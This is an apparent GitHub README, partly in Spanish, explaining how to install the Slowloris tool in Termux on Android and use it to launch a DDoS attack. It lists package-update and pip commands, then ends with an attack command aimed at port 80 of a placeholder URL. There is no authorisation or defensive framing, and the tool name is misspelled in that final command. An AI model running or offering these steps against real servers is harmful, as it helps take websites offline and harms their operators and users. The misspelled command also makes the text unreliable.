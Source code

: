 # Slowloris
Instalación y ataque DDos en termux 

# Attack DDOS with Slowloris in Termux


# Línea de comandos:
_Necesarios en cada entrada a termux_:

1.- pkg update 

2.- pkg upgrade

_Instalación y actualización de pip_:

3.- pip install --upgrade pip

_Instalacion de python, para poder ejecutar el programa_:

4.- pkg install python 


_Instalación de slowloris_:

5.- pip install slowloris 


_Attack_:

6.- slowaris -p 80 -s 15 URL 


_By_

# _D4rKM1nD_
